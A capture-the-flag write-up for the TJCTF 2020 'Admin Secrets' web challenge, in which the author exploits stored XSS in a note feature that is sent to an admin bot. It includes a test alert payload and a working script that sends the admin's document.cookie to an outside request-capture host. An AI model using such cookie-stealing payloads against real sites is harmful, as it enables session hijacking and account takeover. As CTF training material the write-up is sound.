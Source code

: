 ```yaml
---
title: Admin Secrets - [Web, 100pts]
layout: default
type: post
topic: tjctf2020
---
```


Given a website, where a person can login and register. Both are unrelevant to the challenge, so I will cut the chase. The other feature, the 'relevant' feature of the challenge, is a feature that allows user to write a note and even send the note to an **admin** (evil laugh). It isn't hurt to think that this might be an XSS challenge, and I did that. 

To start working on the XSS, I submitted a simple fuzzing payload as a sanity check: 
```
<script>alert(1)</script>
``` 
and the mighty alert box appeared.


![e0b08796e4d0a2d90c090dffc50d7661.png](/assets/images/1827e14ab5b443d08541d1b536f7c97f.png)


Since XSS is not a dream anymore, the next step is to do the basic: steal the admin cookie. ArkAngels had already did the hardwork for this by the time I started working on this challenge. Long story short, I spin up a [RequestBin](https://requestbin.com/) to capture the stolen cookie and submitted this payload:

```
<script>
var req = new XMLHttpRequest();
req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?cookie=' + document.cookie);
req.send();
</script>
```

After the payload is submitted, I reported my post to the admin. The admin  visited, and here's the result:



![f57c874e2158c7a5a8c7013042a18da1.png](/assets/images/0b7b3ca4738043f19c71c90299ed3913.png)
